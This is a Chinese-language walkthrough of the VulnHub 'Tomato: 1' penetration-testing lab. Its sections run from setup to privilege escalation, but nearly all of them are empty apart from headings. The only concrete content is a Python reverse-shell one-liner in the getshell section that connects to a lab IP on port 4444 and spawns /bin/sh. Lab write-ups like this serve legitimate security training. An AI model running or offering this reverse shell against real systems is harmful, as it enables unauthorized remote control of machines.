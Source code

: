 # 原创
：  VulnHub渗透测试实战靶场 - Tomato：1

# VulnHub渗透测试实战靶场 - Tomato：1

#### VulnHub渗透测试实战靶场 - Tomato：1

## 环境下载

> 



## Tomato：1靶机搭建

> 
将下载好的靶机导入Vmware，网络连接设置为NAT模式即可


## 渗透测试

### 信息搜集

> 



> 



> 



### 漏洞挖掘

> 



> 



### getshell

> 



> 



> 



```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.246.129",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

> 



### 提权

> 



> 



> 



> 


